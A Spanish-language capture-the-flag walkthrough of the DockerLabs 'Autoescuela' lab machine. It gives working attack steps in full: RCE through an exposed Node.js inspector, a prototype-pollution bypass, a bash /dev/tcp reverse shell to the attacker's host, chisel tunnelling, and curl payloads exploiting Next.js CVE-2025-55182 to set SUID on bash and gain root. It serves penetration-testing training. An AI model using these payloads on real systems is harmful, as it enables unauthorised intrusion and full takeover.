







# Autoescuela DockerLabs (Easy)

## Contexto de la maquina

### Trayectoria Autoescuela

<figure><figcaption></figcaption></figure>

### Descripción

La máquina _Autoescuela_ es un laboratorio orientado a la explotación de aplicaciones web basadas en **Node.js**, donde se combinan múltiples vectores de ataque modernos, incluyendo abuso de servicios de depuración expuestos, contaminación de prototipos y explotación de frameworks frontend/backend.

**Objetivo del reto:**\
Comprometer el sistema completo obteniendo acceso inicial mediante ejecución remota de código (RCE), escalar privilegios dentro del sistema y finalmente obtener acceso como usuario `root`.

**Tipo de máquina:**\
Linux + Web (Node.js / Next.js)

**Habilidades y técnicas evaluadas:**

* Enumeración de servicios y puertos
* Abuso del debugger de Node.js (Inspector)
* Ejecución remota de código (RCE)
* Prototype Pollution
* Pivoting y tunelización (chisel)
* Explotación de vulnerabilidades en frameworks modernos (Next.js)
* Escalada de privilegios mediante abuso de ejecución como root

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip autoescuela.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh autoescuela.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 10:20 -0400
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Autoescuela Hackcar - Inicio
9229/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/html; charset=UTF-8
|_    WebSockets request was expected
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9229-TCP:V=7.98%I=7%D=4/16%Time=69E0F01D%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expecte
SF:d\r\n")%r(HTTPOptions,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20w
SF:as\x20expected\r\n")%r(RTSPRequest,65,"HTTP/1\.0\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x2
SF:0request\x20was\x20expected\r\n")%r(RPCCheck,65,"HTTP/1\.0\x20400\x20Ba
SF:d\x20Request\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWeb
SF:Sockets\x20request\x20was\x20expected\r\n")%r(DNSVersionBindReqTCP,65,"
SF:HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html;\x20ch
SF:arset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n")%r(DNS
SF:StatusRequestTCP,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x2
SF:0expected\r\n")%r(Help,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20
SF:was\x20expected\r\n")%r(SSLSessionReq,65,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets
SF:\x20request\x20was\x20expected\r\n")%r(TerminalServerCookie,65,"HTTP/1\
SF:.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html;\x20charset=U
SF:TF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n")%r(TLSSession
SF:Req,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/htm
SF:l;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20expected\r\n
SF:")%r(Kerberos,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\x20was\x20ex
SF:pected\r\n")%r(SMBProgNeg,65,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x20request\
SF:x20was\x20expected\r\n")%r(X11Probe,65,"HTTP/1\.0\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\nWebSockets\x
SF:20request\x20was\x20expected\r\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds
```

Observamos dos puertos abiertos relevantes: **8080** y **9229**.\
El puerto **8080** aloja una aplicación web basada en **Node.js**, mientras que el puerto **9229** parece corresponder a un servicio no identificado en primera instancia.

Si accedemos a la aplicación web:

```
URL = http://<IP>:8080/
```

Veremos una página aparentemente normal:

<figure><figcaption></figcaption></figure>

A simple vista no presenta funcionalidades críticas explotables, por lo que centramos la atención en el puerto **9229**, ya que puede estar relacionado con mecanismos internos de depuración.

## Escalate user webuser

<figure><figcaption></figcaption></figure>

### Análisis del puerto 9229

***

> **NOTA: Puerto 9229**

El puerto **9229** es utilizado por defecto por el **Node.js Inspector** (debugger), el cual se activa cuando una aplicación se ejecuta con flags como `--inspect` o `--inspect-brk`.

Este servicio expone una interfaz basada en **WebSockets** que permite:

* Establecer breakpoints
* Inspeccionar el estado interno de la aplicación
* **Ejecutar código JavaScript arbitrario en el contexto del proceso**

> ⚠️ Si este servicio está expuesto sin autenticación ni restricciones de red, puede derivar directamente en una **ejecución remota de código (RCE)**.

***

### Acceso al debugger

Comprobamos si el servicio acepta conexiones sin autenticación:

```shell
node inspect <IP>:9229
```

Respuesta:

```
connecting to 172.17.0.2:9229 ... ok
debug>
```

Esto confirma que tenemos acceso interactivo al contexto de ejecución de la aplicación Node.js.

<figure><figcaption></figcaption></figure>

### Ejecución de comandos (RCE)

Una vez dentro del debugger, intentamos ejecutar comandos del sistema utilizando bindings internos de Node.js. En este caso, utilizamos `spawn_sync` para invocar `/bin/sh`:

```shell
exec('const spawn = process.binding("spawn_sync"); const result = spawn.spawn({file:"/bin/sh",args:["/bin/sh","-c","id"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true}],envPairs:[]}); result.output[1]')
```

Respuesta:

```
Uint8Array(57)
```

**Interpretación**:

El comando se ha ejecutado correctamente, pero la salida se devuelve en formato binario (`Uint8Array`) en lugar de texto legible.

Esto confirma varios puntos clave:

* Existe **ejecución remota de comandos (RCE)**
* Estamos interactuando directamente con el proceso Node.js
* Es necesario ajustar la forma en la que capturamos la salida para obtener resultados legibles

#### Enumeración de la Versión de Node.js

Con el objetivo de identificar vectores de ataque más avanzados, procedemos a enumerar la versión exacta de **Node.js** en ejecución:

```shell
exec('process.versions')
```

Respuesta:

```
{ node: '22.22.2',
  acorn: '8.15.0',
  ada: '2.9.2',
  amaro: '1.1.5',
  ares: '1.34.6',
  ... }
```

La aplicación está ejecutándose sobre **Node.js v22.22.2**, lo cual es relevante ya que ciertas funcionalidades internas del runtime pueden ser abusadas dependiendo del contexto de ejecución.

### Explotación: Prototype Pollution → RCE

En versiones de Node.js donde aún es accesible `process.mainModule`, es posible utilizar este objeto para cargar módulos internos de CommonJS.

Sin embargo, en este contexto concreto (debugger / entorno restringido), la función `require` no está disponible de forma global. Para evadir esta limitación, aplicamos una técnica de **Prototype Pollution**, que nos permitirá inyectar funcionalidades en el prototipo base de todos los objetos.

#### Verificación de Prototype Pollution

Primero comprobamos si es posible modificar el prototipo global de `Object`:

```shell
exec('Object.prototype.polluted = "yes"; polluted')
```

Respuesta:

```
'yes'
```

Esto confirma que el prototipo es modificable, por lo que la técnica es viable.

#### Inyección de `require` en el prototipo

Aprovechando esta capacidad, definimos una función `require` en `Object.prototype`, reutilizando `process.mainModule.require`:

```shell
exec('Object.prototype.require = function(m) { return process.mainModule.require(m) }')
```

Respuesta:

```
[Function: function]
```

A partir de este momento, **cualquier objeto** heredará el método `require()`, permitiendo cargar módulos internos.

#### Ejecución de comandos (RCE)

Utilizando un objeto vacío `{}`, podemos invocar el método `require` recién inyectado para cargar `child_process` y ejecutar comandos del sistema:

```shell
exec('({}).require("child_process").execSync("id").toString()')
```

Respuesta:

```
'uid=1001(webuser) gid=1001(webuser) groups=1001(webuser)\n'
```

Esto confirma que hemos conseguido **ejecución remota de comandos (RCE)** en el sistema, bajo el contexto del usuario `webuser`.

### Obtención de reverse shell

Una vez validado el RCE, procedemos a establecer una shell interactiva.

Primero nos ponemos en escucha:

```shell
nc -lvnp <PORT>
```

A continuación, ejecutamos el siguiente payload desde el debugger:

```shell
exec('({}).require("child_process").execSync("bash -c \'bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1\'")')
```

En la terminal en escucha obtenemos:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 44096
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
webuser@fa397eabd540:/root/react_app$ whoami
whoami
webuser
```

Se confirma que hemos obtenido acceso interactivo como el usuario **webuser**.

### Sanitizacion Shell (TTY)

Para mejorar la interacción con la shell, realizamos una sanitización del entorno TTY:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez obtenida una shell completamente funcional, procedemos a leer la flag del usuario:

> user.txt

```
DL{g2QrDUvg3HiqaWeZBbZa}
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Una vez dentro del sistema, procedemos a enumerar los servicios activos para identificar posibles vectores de escalada de privilegios. Para ello, listamos los puertos en escucha:

```shell
netstat -tuln
```

Respuesta:

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9229            0.0.0.0:*               LISTEN
```

Observamos un servicio interesante corriendo en `127.0.0.1:3000`, accesible únicamente en local. Para poder interactuar con él desde nuestra máquina atacante, realizaremos una **tunelización de puertos** utilizando la herramienta `chisel`.

### Tunelización con Chisel

Descargamos `chisel` desde el siguiente repositorio:

URL = [Download Chisel](https://github.com/jpillora/chisel/releases)

Una vez descargado, lo descomprimimos, asignamos permisos de ejecución y lo renombramos para facilitar su uso:

```shell
gunzip -d chisel_1.11.5_linux_amd64.gz
chmod +x chisel_1.11.5_linux_amd64
mv chisel_1.11.5_linux_amd64 chisel
```

A continuación, levantamos un servidor HTTP temporal para transferir el binario a la máquina víctima:

```shell
python3 -m http.server 80
```

Desde la máquina comprometida:

```shell
cd /tmp
curl -O http://<IP>/chisel
chmod +x chisel
```

### Estableciendo el túnel

En la máquina atacante, iniciamos el servidor de `chisel` en modo reverse:

```shell
./chisel server -p 9000 --reverse
```

Respuesta:

```
2026/04/16 11:47:24 server: Reverse tunnelling enabled
2026/04/16 11:47:24 server: Fingerprint Stt3CBppun67rwoW37ujSeq1h3gVkHNB/4UTXMNCcEk=
2026/04/16 11:47:24 server: Listening on http://0.0.0.0:9000
```

Desde la víctima, establecemos la conexión hacia nuestro servidor:

```shell
./chisel client <IP_ATTACKER>:9000 R:3001:127.0.0.1:3000
```

Respuesta:

```
2026/04/16 15:47:39 client: Connecting to ws://192.168.5.131:9000
2026/04/16 15:47:39 client: Connected (Latency 396.57µs)
```

Esto nos permite mapear el puerto interno `3000` de la víctima al puerto `3001` en nuestra máquina local.

### Acceso al servicio interno

Ahora, desde nuestro navegador accedemos a:

```
URL = http://127.0.0.1:3001/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Confirmamos que la tunelización ha sido exitosa y que el servicio interno es accesible. Se trata de un panel de administración basado en tecnologías modernas, aunque a simple vista no expone funcionalidades críticas.

### Análisis de procesos

Para comprender mejor el entorno, analizamos los procesos relacionados con este servicio:

```shell
ps aux | grep -E "3000|node|npm|next|react"
```

Respuesta:

```
root           7  0.0  0.0  11272  5492 ?        S    15:23   0:00 sudo -u webuser node --inspect=0.0.0.0:9229 /home/webuser/node_app/app.js
root           8  0.0  0.9 1201408 79404 ?       Sl   15:23   0:00 npm exec next dev -p 3000 -H 127.0.0.1
webuser       10  0.0  0.7 1090908 60156 ?       Sl   15:23   0:00 node --inspect=0.0.0.0:9229 /home/webuser/node_app/app.js
root          29  0.0  0.0   2808  1728 ?        S    15:23   0:00 sh -c next dev -p 3000 -H 127.0.0.1
root          30  0.0  1.0 11627160 82184 ?      Sl   15:23   0:00 node /root/react_app/node_modules/.bin/next dev -p 3000 -H 127.0.0.1
root          42 39.3  8.6 56035664 699588 ?     Rl   15:23  19:27 next-server (v15.0.0-rc.1)
```

De este análisis se desprenden varios puntos clave:

* La aplicación está ejecutándose con **Node.js** en modo debug (`--inspect=0.0.0.0:9229`), lo cual ya habíamos explotado previamente.
* El frontend está basado en **Next.js**, ejecutándose en modo desarrollo (`next dev`).
* Se identifica claramente la versión: **Next.js v15.0.0-rc.1**.

### Identificación de vulnerabilidad

La versión detectada de **Next.js (`v15.0.0-rc.1`)** es conocida por ser vulnerable al **CVE-2025-55182**, lo cual puede permitir ejecución de código o escalada de privilegios dependiendo del contexto.

Este hallazgo confirma que el servicio interno expuesto mediante la tunelización no solo era accesible, sino también potencialmente explotable, consolidando así el vector de escalada de privilegios dentro del sistema.

### CVE-2025-55182

URL = [Info de la vulnerabilidad](https://github.com/advisories/GHSA-9qr9-h5gf-34mp)

Una vez identificado que el servicio interno utiliza una versión vulnerable de **Next.js**, procedemos a validar si realmente es explotable en este entorno.

### Verificación de la vulnerabilidad

Para ello, utilizamos un escáner desarrollado en **Python3** disponible en el siguiente repositorio:

URL = [Escaner en python3 de CVE-2025-55182](https://github.com/captain4554/CVE-2025-55182-Scanner)

Transferimos los archivos necesarios (`cve_2025_55182_scan.py` y `requirements.txt`) a nuestra máquina atacante y preparamos un entorno aislado:

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install -r requirements.txt
```

Una vez configurado el entorno, ejecutamos el escáner contra el servicio tunelizado:

```shell
python3 cve_2025_55182_scan.py -u 'http://127.0.0.1:3001/' --path /_next
```

Respuesta:

```
brought to you by assetnote

[*] Loaded 1 host(s) to scan
[*] Testing 1 path(s): /_next
[*] Using 10 thread(s)
[*] Timeout: 10s
[*] Using RCE PoC check
[!] SSL verification disabled

[VULNERABLE] http://127.0.0.1:3001/ - Status: 303

============================================================
SCAN SUMMARY
============================================================
  Total hosts scanned: 1
  Vulnerable: 1
  Not vulnerable: 0
  Errors: 0
============================================================
```

El escáner confirma que el objetivo es vulnerable, por lo que pasamos a la explotación manual para validar la ejecución remota de comandos.

### Explotación manual (RCE)

A continuación, utilizamos un `payload` manual mediante `curl` que abusa de la lógica interna de **Next.js** (Server Components), combinando **Prototype Pollution** con acceso a `process.mainModule`, lo que permite ejecutar comandos en el sistema.

```shell
curl -X POST http://localhost:3001/ \
  -H "Content-Type: multipart/form-data; boundary=----Boundary" \
  -H "Next-Action: test" \
  -H "Accept: text/x-component" \
  --data-binary $'------Boundary\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\"$B0\\"}","_response":{"_prefix":"process.mainModule.require(\'child_process\').execSync(\'id\').toString()","_formData":{"get":"$1:constructor:constructor"}}}\r\n------Boundary\r\nContent-Disposition: form-data; name="1"\r\n\r\n[]\r\n------Boundary--\r\n'
```

Respuesta:

```
1:E{"digest":"uid=0(root) gid=0(root) groups=0(root)"}
```

Esto confirma que la ejecución remota de comandos es posible y, además, que el proceso vulnerable se está ejecutando con privilegios de **root**.

### Escalada de privilegios

Dado que ya tenemos ejecución como `root` a nivel de proceso, aprovechamos esta capacidad para establecer el bit **SUID** sobre `/bin/bash`, lo que nos permitirá escalar privilegios de forma persistente desde un usuario no privilegiado.

```shell
curl -X POST http://localhost:3001/ \
  -H "Content-Type: multipart/form-data; boundary=----Boundary" \
  -H "Next-Action: test" \
  -H "Accept: text/x-component" \
  --data-binary $'------Boundary\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\"$B0\\"}","_response":{"_prefix":"process.mainModule.require(\'child_process\').execSync(\'chmod u+s /bin/bash\').toString()","_formData":{"get":"$1:constructor:constructor"}}}\r\n------Boundary\r\nContent-Disposition: form-data; name="1"\r\n\r\n[]\r\n------Boundary--\r\n'
```

Verificamos que el cambio se ha aplicado correctamente:

```shell
ls -la /bin/bash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

El bit `SUID` está activo.

### Obtención de shell como root

Finalmente, desde nuestra sesión como usuario sin privilegios, ejecutamos:

```shell
bash -p
```

Respuesta:

```
bash-5.2# whoami
root
```

Con esto obtenemos una shell con privilegios de **root**, completando la escalada de privilegios, por lo que leeremos la `flag` de `root`.

> root.txt

```
DL{Z8Gc5NFYMrH3W4vv5ZWa}
```
